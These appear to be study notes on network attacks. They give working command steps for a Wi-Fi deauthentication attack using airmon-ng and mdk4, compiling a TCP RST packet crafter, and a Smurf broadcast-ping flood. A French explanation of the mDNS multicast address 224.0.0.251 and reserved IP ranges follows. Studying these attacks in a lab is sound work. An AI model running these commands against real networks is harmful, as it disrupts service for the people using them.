 Dauth Frames :
    install mdk4

    setup an interface in monitor mode :
        sudo airmon-ng start <interface>
        if error kill the process : sudo airmon-ng check kill

        iwconfig should show a new interface : <interface>mon
        the attack will be done on this interface
    sudo mdk4 <interface> d -w <file> -c <channel>
        file = WhiteList MAC address
        channel = channel of the AP (remove -c <channel> for exe on all channel)

crafting packet
    use g++ -o rst_packet rst_packet.cpp <ipSrc> <ipDst> (use a valid ip address for ipSrc and ipDst)
    look at if reset packets are detected by the sniffer (RST Flag: ...)

SMURF : attack use ;
    ping -b <broadcast ip> -c <number of packet> <ip to ping>
    or just ping <ip>



#224.0.0.251 

L'adresse IP 224.0.0.251 est une adresse IP multicast réservée à l'utilisation du protocole de découverte de services Zeroconf (Zero Configuration Networking), 
également connu sous le nom de mDNS (multicast DNS). Le mDNS permet aux appareils sur un réseau local de découvrir et de se connecter les uns aux autres sans configuration préalable. Cette adresse IP est utilisée pour la résolution de noms de domaine locaux sans avoir besoin d'un serveur DNS central.

En d'autres termes, lorsqu'un appareil sur le réseau local recherche d'autres appareils ou services, 
il peut diffuser des requêtes multicast à l'adresse IP 224.0.0.251 pour découvrir les services disponibles sur le réseau sans nécessiter une infrastructure DNS traditionnelle. 
Cela est couramment utilisé dans les réseaux domestiques et locaux pour faciliter la découverte automatique des appareils et des services sans configuration manuelle.


Oui, il existe plusieurs plages d'adresses IP réservées à des utilisations spécifiques, telles que des services particuliers, des protocoles de communication spécifiques, ou des usages réservés à des fins particulières. Voici quelques exemples :

1. **Adresse IP de bouclage (Loopback):**
   - 127.0.0.1 est l'adresse IP de bouclage standard, également connue sous le nom de "localhost". Elle est utilisée pour les tests de réseau sur la machine locale.

2. **Adresses IP privées:**
   - 10.0.0.0 à 10.255.255.255
   - 172.16.0.0 à 172.31.255.255
   - 192.168.0.0 à 192.168.255.255
   Ces plages d'adresses sont réservées pour une utilisation dans les réseaux privés et ne sont pas routées sur Internet.

3. **Adresses IP multicast:**
   - Diverses adresses IP de la plage 224.0.0.0 à 239.255.255.255 sont réservées pour le multicast. 
    Par exemple, 224.0.0.1 est utilisée pour toutes les hôtes sur le réseau local, 224.0.0.2 est utilisée pour tous les routeurs sur le réseau local, etc.

4. **Adresse IP de diffusion (Broadcast):**
   - 255.255.255.255 est utilisée pour envoyer des données à tous les appareils sur le réseau local.

5. **Adresses IP spéciales pour les protocoles réservés:**
   - 0.0.0.0 est utilisée comme adresse indiquant "toutes les adresses" ou "tous les hôtes".
   - 169.254.0.0 à 169.254.255.255 est réservée pour l'auto-configuration d'adresses IP sur un réseau local en l'absence de serveur DHCP.

Ces adresses IP réservées contribuent à organiser et à optimiser le fonctionnement d'Internet et des réseaux locaux en définissant des plages spécifiques pour des fins spécifiques.
